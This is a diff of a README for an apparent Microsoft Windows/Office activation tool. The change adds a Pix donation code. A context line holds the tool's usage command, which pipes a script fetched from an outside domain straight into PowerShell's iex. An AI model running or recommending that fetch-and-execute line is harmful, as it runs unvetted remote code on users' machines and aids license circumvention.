

Before and after one commit to wssolinfor/Microsoft-Activation-Wsinc, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -53,7 +53,10 @@ irm cdn.winpett.com.br/assets/scripts/ps/wsinc-activate.win.office | iex
 ```
 18099035000195
 ```
-
+> - <code><b>Código Pix Copia e Cola (CNPJ)</b></code>:
+```
+00020126360014BR.GOV.BCB.PIX0114180990350001955204000053039865802BR5913PIXWSSOLINFOR6005NATAL62080504202663040CC5
+```
 ---
 
 ### 💜Alguns dos nossos valiosos doadores e usuários ativos.
````
